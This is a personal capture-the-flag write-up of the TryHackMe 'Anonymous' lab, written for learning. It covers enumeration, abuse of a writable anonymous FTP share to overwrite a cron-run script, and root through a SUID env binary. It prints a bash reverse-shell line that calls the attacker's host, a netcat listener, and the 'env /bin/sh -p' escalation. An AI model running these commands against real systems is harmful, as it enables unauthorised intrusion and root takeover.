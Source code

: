 # Hack Log 3 - TryHackMe [Anonymous](https://tryhackme.com/room/anonymous)

📆:**Date:** 2025-05-25  
🔍**Objective:** Read the contents of user.txt and root.txt files  
🎯**Target**: TryHackme Anonymous (Lab CTF)  

---

## 🛠️ Actions Taken  

- **Port & Service Enumeration**
  ```
  nmap -sV -p<port>-<port> <IP>
  ```
  → Found common services on their ports.  
  → Found a smb share named as "pics".  
  → Mounted the smb share, share containes some dog pictures, analyzed the images, nothing useful.  
  → Discovered that the FTP has anonymous login and file write enabled.  

- **FTP File-Write**  
  → Logged in to the FTP service.  
  → Discovered a script `clean.sh`, a file `removed_files.log` and a note to self mentioning to "disable anonymous login to FTP".  
  → Analyzed the script and found that it deletes files and writes the result into the aforementioned .log file.  
  → Analyzed the log file, it contained repetitive log messages in new lines.
    ```
   Running cleanup script:  nothing to delete
   Running cleanup script:  nothing to delete
   Running cleanup script:  nothing to delete
   Running cleanup script:  nothing to delete
   ```   
  → After a while Re-downloaded the log file and script from FTP.  
  → Read the log file and found that the number of repetitive logging messages (number of lines) is greater than the previous log file.
   ```
   Running cleanup script:  nothing to delete
   Running cleanup script:  nothing to delete
   Running cleanup script:  nothing to delete
   Running cleanup script:  nothing to delete
   Running cleanup script:  nothing to delete
   Running cleanup script:  nothing to delete
   Running cleanup script:  nothing to delete  
   ```
  → Deduced that there must be a cron job running the `clean.sh` script in intervals of time, hence the varying log entries in the two log files obtained in different points of time.  
  → Created another script named as `clean.sh` in the local system which spawns a reverse shell.
    ```
    bash -i >& /dev/tcp/<MACHINE_IP>/4444 0>&1
    ```
  → Uploaded the modified `clean.sh` containing the reverse shell via FTP to the victim machine.  
  → Started a netcat listener on the local machine.
    ```
    nc -lvnp 4444
    ```  
  → Succesfully received a reverse shell.


- **Post-Exploitation**
  → The reverse shell obtained was unstable therefore stabilized it.
    - 1. Victim machine
      ```
      /usr/bin/script -qc /bin/bash /dev/null
      CTRL+Z
      ```
    - 2. Attacker machine
      ```
      stty raw -echo
      fg
      ENTER
      ENTER
      ```
    - 3. Victim Machine
      ```
      export TERM=xterm
      stty cols 132 rows 34
      ```
  → Found `user.txt` file in the home directory and obtained the flag 1.

- **Privilege Escalation**
  → Searched for any binary with suid bit set.
    ```
    find / -type f -perm -4000 2>/dev/null
    ```
  → Found a binary called `env` with suid bit set.
  → Searched for its corresponding entry in [GTFO Bins](https://gtfobins.github.io/gtfobins/env/).
  → Executed the following
    ```
    env /bin/sh -p
    ```
  → Succesfully obtained the root shell and obtained the final flag from root.txt.


## 🔍 Key Findings  

→ FTP with anonymous login and file write enabled.  
→ Cron job executing the script in regular intervals.  

## 📚 What I Learned  

→ FTP with anonymous login and file write can be a goldmine.  
→ SMB shares can also be useful, its good to check and enumerate them.  
→ Reiterating, rethinking on the steps and seeking help/hints(no cheating) can be very very helpful if getting stuck.  
→ In this case, redownloading and reviewing the log file revealed that there might be a cron job running the script, this information was critical in successful exploitation.    


  
   
   
      
  
  

